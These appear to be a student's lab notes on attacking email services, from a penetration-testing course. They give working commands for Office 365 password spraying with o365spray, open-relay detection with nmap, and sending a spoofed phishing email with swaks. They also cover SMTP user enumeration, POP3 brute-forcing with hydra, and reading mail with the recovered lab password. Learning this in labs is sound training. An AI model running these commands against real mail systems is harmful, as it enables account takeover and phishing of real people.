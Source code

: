 - We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta.
- Keep in mind that **these tools need to be up-to-date because if the service provider changes something** (which happens often), the tools may not work anymore.

- O365 Spray - Password Spraying:
	- `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`
	- ![[Pasted image 20250712065418.png]]
- Any **unknown error can mean login was success** 

# Protocol Specifics Attacks
---
- An open relay is a **Simple Mail Transfer Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay.**
- Messaging servers that are **accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server.**

## Open Relay
- From an attacker's standpoint, we can **abuse this for phishing by sending emails as non-existing users or spoofing someone else's email**
- With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay:
	- `nmap -p25 -Pn --script smtp-open-relay 10.10.11.213`
		- `25/tcp open  smtp`
		`smtp-open-relay: Server is an open relay (14/16 tests)`

- Next, we can use any mail client to connect to the mail server and send our email:
	- `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213`

# Labs
---
=> What is the available username for the domain inlanefreight.htb in the SMTP server? 
- Bruteforce login Username:
	- `smtp-user-enum -M RCPT -U users.list  -D inlanefreight.htb -t 10.129.83.172`
- Password:
	- `hydra -l marlin@inlanefreight.htb -P pws.list -f 10.129.83.172 pop3 -I`
	- ![[Pasted image 20250712074102.png]]
- Access using pop3:
	- `telnet 10.129.83.172 110`
	- `USER marlin@inlanefreight.htb`
	- `PASS poohbear`
	- `LIST`
	- `RETR 1`

		![[Pasted image 20250712074148.png]]
